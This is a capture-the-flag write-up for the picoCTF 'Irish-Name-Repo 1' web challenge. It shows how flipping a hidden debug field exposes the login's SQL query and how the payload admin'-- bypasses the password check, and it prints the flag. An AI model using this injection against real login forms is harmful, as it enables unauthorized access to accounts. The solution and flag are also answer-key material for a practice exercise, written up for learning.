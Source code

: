 # Irish-Name-Repo 1

# Description
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` [link](https://jupiter.challenges.picoctf.org/problem/33850/) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
# Solution

- Check the source code in line 28 I found out a hidden text field used to debug with the value "0".
``` html
|<input type="hidden" name="debug" value="0">|
```

- After change it the value "0" to "1" and trying to login as admin with password admin I get an output like this that revels the use of concatenation for the SQL queries that make it vulnerable to an SQL injection attack.

```sql
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
```

-  After trying to log in with an SQL query that bypass the password field we get the flag 

```sql 
/*
username: admin'--
password: admin

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}

*/
```
# References
- [picoCTF 2019 writeup 7 - Web - Irish-Name-Repo 1](https://youtu.be/0EDbUSDqrng?si=5wrnQMkKZZkg1Dwz)
- [SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)
